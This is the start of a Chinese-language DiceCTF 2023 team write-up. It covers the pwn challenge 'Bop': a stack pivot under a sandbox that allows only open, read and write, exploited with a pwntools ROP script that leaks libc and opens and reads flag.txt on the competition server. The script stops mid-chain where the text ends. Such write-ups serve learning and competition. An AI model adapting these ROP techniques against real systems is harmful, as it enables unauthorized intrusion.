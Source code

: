 # DiceCTF 2023 Writeup - CN

## 前言

本次比赛取得了第二名🥈的成绩,现将师傅们的wp整理如下,与大家交流学习。有意向的师傅欢迎投递简历到`root@r3kapig.com`,我们会及时与您联系.

![](https://imgur.com/KewItPk.png)

## Pwn:

### Bop:

一道简单的栈迁移pwn题，但是设置了沙箱只允许orw。然而用libc中的open函数会调用openat，需要通过syscall来直接调用open，有“syscall;ret”的gadget但是被笔者忽略了，所以笔者只用了syscall gadget来执行open，然后用libc中的read和write输出flag。为了在ROP中正常使用syscall，必须覆写libc中的canary

```python
from pwn import *

#p = process('bop')
p = remote('mc.ax', 30284)

pay = b'a'*32 + p64(0x404120-0x8)
pay += p64(0x00000000004013d3+1) #ret
pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x404090)
pay += p64(0x4010F0) #printf
pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x404100) #bss
pay += p64(0x401100) #gets
pay += p64(0x401364) #leave_ret

p.sendline(pay)

libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x1ec980
print(f'libc_base = {hex(libc_base)}')

pay = b'flag.txt'.ljust(32,b'\x00')

pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x0)
pay += p64(libc_base+0x000000000002601f) #pop_rsi
pay += p64(libc_base - 0x2898)
pay += p64(libc_base+0x0000000000142c92) #pop_rdx
pay += p64(0x8)
pay += p64(libc_base+0x10dfc0) #read

pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x404100)
pay += p64(libc_base+0x000000000002601f) #pop_rsi
pay += p64(0x0)
pay += p64(libc_base+0x0000000000036174) #pop_rax
pay += p64(0x2) #open
pay += p64(libc_base+0x000000000007f1d2)
pay += p64(libc_base+0x25EE2) #syscall

pay += p64(0x0061616161616161) * 13

pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x3)
pay += p64(libc_base+0x000000000002601f) #pop_rsi
pay += p64(0x404300)
pay += p64(libc_base+0x0000000000142c92) #pop_rdx
```
